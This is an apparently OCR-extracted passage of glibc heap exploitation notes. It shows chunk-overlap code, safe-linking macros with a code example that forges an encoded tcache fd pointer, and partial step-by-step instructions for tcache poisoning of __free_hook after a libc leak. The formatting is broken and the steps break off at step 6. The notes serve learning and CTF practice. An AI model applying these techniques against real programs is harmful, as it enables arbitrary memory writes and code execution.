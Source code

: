   ```
    free(b);
    // Same address in different bins

    // Now we can allocate chunks of different sizes
    e = malloc(0x60); // address of b
    free(e); // put it in the 0x70 bin

    // We can get the chunk from another list
    int *f = malloc(0x10); // address of b
    *f = &target;
    
    c = malloc(0x55); // address of b
    d = malloc(0x55); // address of target

    *d = 2;
  ```

- **Safe-Linking**: Safe-linking is a security feature that protects against tcache poisoning by encoding the fd pointer of a chunk using a xor operation. This makes it difficult for an attacker to predict the address of the next chunk in the tcache list. To bypass this, we need information leak to leak the secret value used for encoding. This will trigger most of the time the error `malloc(): unaligned tcache chunk detected` if we try to allocate a chunk without knowing the secret value.
  The encoding is done using the following macros:
  ```
  ```c
  #define PROTECT_PTR(pos, ptr, type)  \
        ((type)((((size_t)pos) >> PAGE_SHIFT) ^ ((size_t)ptr)))
  #define REVEAL_PTR(pos, ptr, type)   \
        PROTECT_PTR(pos, ptr, type)
  ```

  `PAGE_SHIFT` is 12 on x86_64 (4096 bytes page size).
  Example:
    ```c
    long *a = malloc(10);
    free(a);
    // Assume we have leaked the secret value
    long secret = leak_secret();
    *a = (long)&overwrite_me ^ (secret >> 12); // overwrite fd pointer with encoded value
    long *b = malloc(10); // b points to a
    long *c = malloc(10); // c points to &overwrite_me
    *c = 2; // overwrite overwrite_me
    printf("overwrite_me: %lx\n", overwrite_me); // prints 2
  ```


### Exploit `__free_hook` with tcache poisoning

### Prerequisites

Need to have acces to `malloc`, `free`, an `read malloced` chunk and an `edit malloced` chunk function.

### Steps

1. **Allocate two big chunks**: Allocate two big chunk (e.g., 0x450 bytes) for a future leak.
2. **Free the big chunk**: Free the first big chunk to place it in the unsorted bin. (offset 0)
3. **Read the big chunk**: Read the content of the first big chunk to leak a libc address. Calculate the libc base address using the leaked address and the known offset of `main_arena`.
4. **Allocate three small chunk**: Allocate three small chunks (e.g., 0x20 bytes) to fill the tcache bin for that size. (offset 5, 6, 7)
5. **Free the three small chunks**: Free the three small chunks to place them in the tcache bin for that size. (offset 5, 6, 7)
6. **Overwrite the fd pointer**: Edit the second small chunk to overwrite its fd pointer with the address of `__free_hook` in libc. (offset 6)
  ```